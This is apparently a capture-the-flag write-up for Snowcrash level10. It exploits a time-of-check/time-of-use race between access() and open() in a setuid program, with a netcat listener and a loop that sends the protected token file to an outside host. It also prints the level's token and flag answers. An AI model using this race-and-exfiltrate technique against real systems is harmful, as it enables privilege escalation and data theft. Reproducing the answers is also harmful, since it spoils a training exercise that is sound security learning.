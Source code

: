 # <center>Snowcrash level10</center>

# Explanations

<br/>

## On VM:
> $ ls -l
>>-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10<br/>
>>-rw-------  1 flag10 flag10     26 Mar  5  2016 token

> $ ./level10
>> ./level10 file host<br/>
>>	sends file to host if you have access to it

> $ echo "test" > /tmp/test<br/>
> $ ./level10 /tmp/test localhost
>> Connecting to localhost:6969 .. Unable to connect to host localhost

> $ nm -u ./level10
>>U access@@GLIBC_2.0<br/>
>>U open@@GLIBC_2.0<br/>

- We are going to use the moment between the right check of the file "access()" and the opening "open()".
- We will create a loop that will make a switch between a link to a file in /tmp and the right token.

<br/>

## On your computer:
> $ nc -lk 6969

<br/>

## On VM:
- Copy the loop.sh script to the /tmp/ folder
> $ /tmp/loop.sh&<br/>
> $ while true; do ./level10 /tmp/token <IP_COMPUTER>; done

<br/>

## On your computer:
- Retrieve the output of the nc command
> $
>> woupa2yuojeeaaed06riuj63c

<br/>

## On VM:
> $ su flag10<br/>
> $ woupa2yuojeeaaed06riuj63c<br/>
> $ getflag<br/>
>> feulo4b72j7edeahuete3no7c